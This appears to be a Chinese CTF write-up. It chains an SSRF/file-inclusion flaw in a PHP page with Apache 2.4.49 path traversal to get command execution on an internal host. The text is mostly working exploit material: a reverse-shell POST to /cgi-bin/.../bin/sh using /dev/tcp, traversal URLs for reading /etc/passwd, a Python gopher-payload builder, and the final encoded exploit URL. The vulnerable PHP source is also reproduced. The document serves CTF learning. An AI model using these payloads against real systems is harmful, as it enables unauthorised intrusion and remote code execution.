

```
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 172.18.0.3:80
Content-Length: 48
Content-Type: application/x-www-form-urlencoded

echo;bash -i >& /dev/tcp/ip/2333 0>&1
```

访问看起来像一个文件包含，读/etc/passwd果然有，接下来读index.php，f12看到了base64

```
<?php

if (isset($_GET['target'])) {

    $t = $_GET['target'];
    if (!preg_match("/:\/\//", $t)) {
        $data = file_get_contents($t);
        echo "<center>";
        if (preg_match("/GIF89a/", $data)) {
            echo "";
        } else {
            echo $data;
        }
        echo "</center>";
    } else  {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $t);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_exec($ch);
        curl_close($ch);
    }
} else { ?>

<h2>File Index</h2>
<a href="[表情]target=todo.txt">todo</a></br>
<a href="[表情]target=dog.gif">dog</a></br>


<?php } ?>
```

打ssrf，直接读flag无果，读一下/etc/hosts


内网ip为172.18.0.2，扫描一下C段发现了172.18.0.2，是apache2.4.49存在目录穿越漏洞，读到了/etc/passwd

```
http://1.14.69.81/?target=http://172.18.0.3/icons/.%252e%2F%252e%252e%2F%252e%252e%2F%252e%252e/etc/passwd
```

但是也没有flag，命令执行的话需要post，用到gopher协议

```
# -*- coding: utf-8 -*-
import urllib
import requests
test =\
"""POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 172.18.0.3:80
Content-Length: 26
Content-Type: application/x-www-form-urlencoded

echo;cat /flag_y0u_f1nd_1t
"""
#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(test)
new = tmp.replace('%0A','%0D%0A')
result = "gopher://172.18.0.3:80/"+'_'+new
result = urllib.parse.quote(result)
print(result)
```


```
http://1.14.69.81/?target=gopher%3A//172.18.0.3%3A80/_POST%2520/cgi-bin/.%25252e/.%25252e/.%25252e/.%25252e/bin/sh%2520HTTP/1.1%250D%250AHost%253A%2520172.18.0.3%253A80%250D%250AContent-Length%253A%252026%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250A%250D%250Aecho%253Bcat%2520/flag_y0u_f1nd_1t%250D%250A
```

